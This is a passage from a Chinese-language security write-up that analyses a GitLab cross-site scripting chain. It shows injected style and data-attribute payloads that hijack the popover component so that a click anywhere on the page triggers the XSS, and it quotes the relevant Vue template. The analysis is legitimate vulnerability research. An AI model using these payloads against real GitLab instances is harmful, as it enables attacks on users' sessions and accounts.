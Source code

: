 13. 触发上述 xss 需要点击按钮，因此攻击者又进一步将该按钮全屏化，只要点击页面任何位置就可以触发，这一步需要注入 style 样式。

    - 首先注入 style 属性，首先更改本 img 样式，为最大并且覆盖在页面上
      ```
      id=stage1 style="position:absolute;max-width:10000px;left:-1000px;top:-1000px;width:10000px;height:10000px;z-index:10000;"
      ```
    - 然后注入 3 个 data 属性
      ```
      data-triggers="click" data-toggle=popover data-html=true
      ```
    - 其中`data-toggle`和`data-html`属性将本元素定义为下拉菜单。由 vue app 负责页面初始化时进行扫描并且转换。搜索关键字： `data-toggle="popover` ，找到一处引用:
      _app/assets/javascripts/popovers/index.js_

      ![popover](/assets/gitlab/1/popover.png)

      经过简单分析，该类会在网页初始化时自动执行，并且对所有包含 data-toggle 属性的元素进行 popover 下拉菜单构建。这个潜在的漏洞点已经碰到多次。因此就好办了，对于任何用属性作为选择器来操作元素的代码，是极其不安全的。并且这个漏洞点还有一点就是 data 属性的值配合 vue 的 v-html 或者 v-safe-html 来实现

    - `data-triggers`也是负责下拉菜单的初始化。由于 gitlab 项目中搜索 triggers 关键字（vue 会去掉 data 前缀）没有任何收获，于是去掉该属性后发现 Trigger 不了，就是 popover 并不会出现，即使构造了 popover app。由于目标元素（img）会传递给 GlPopover 组件，该组件在 gitlab-ui 依赖中于是在 gitlab-ui 项目寻找，发现了该属性的使用。也就是说不能删除该属性。删除之后 popover 触发不了，所以不会挂载到 document 中。也就是所，组件的初始化和是否挂载到 document 是两回事。经过测试，click 和 hover 都能够触发挂载，但是 click 更稳定，而 hover 会不断触发挂载和移除，不够稳定想想也是，既然是下来菜单，需要点击或者 hover 才会渲染出现。
      参考：[https://gitlab.com/gitlab-org/gitlab-ui/-/blob/main/src/components/base/popover/popover.vue](https://gitlab.com/gitlab-org/gitlab-ui/-/blob/main/src/components/base/popover/popover.vue)
    - 和最后两个 data 属性，主要更改了按钮类 svg.chevron-right 的属性让其覆盖在所有元素之上。
      ```
      data-title="aaa&lt;style&gt;#stage1{pointer-events:none}svg.chevron-right{position:absolute;max-width:10000px;left:-1000px;top:-1000px !important;width:10000px;height:10000px;z-index:10001;}&lt;/style&gt;bbb"
      data-content=ggg
      ```
      data-title 和 data-content 的值都会传入 v-safe-html 进行渲染，这里就可以改变目标元素的 css。让任意元素铺满屏幕等待用户点击触发。
      _app/assets/javascripts/popovers/components/popovers.vue_
      ```
      <template>
        <div>
          <gl-popover v-for="(popover, index) in popovers" :key="index" v-bind="popover">
            <template #title>
              <span v-if="popover.html" v-safe-html:[$options.safeHtmlConfig]="popover.title"></span>
              <span v-else>{{ popover.title }}</span>
            </template>
            <span v-if="popover.html" v-safe-html:[$options.safeHtmlConfig]="popover.content"></span>
            <span v-else>{{ popover.content }}</span>
          </gl-popover>
        </div>
      </template>
      ```
      注意 vue 中的 data 属性不带 data 字样，例如：
      _app/assets/javascripts/popovers/components/popovers.vue_
      ```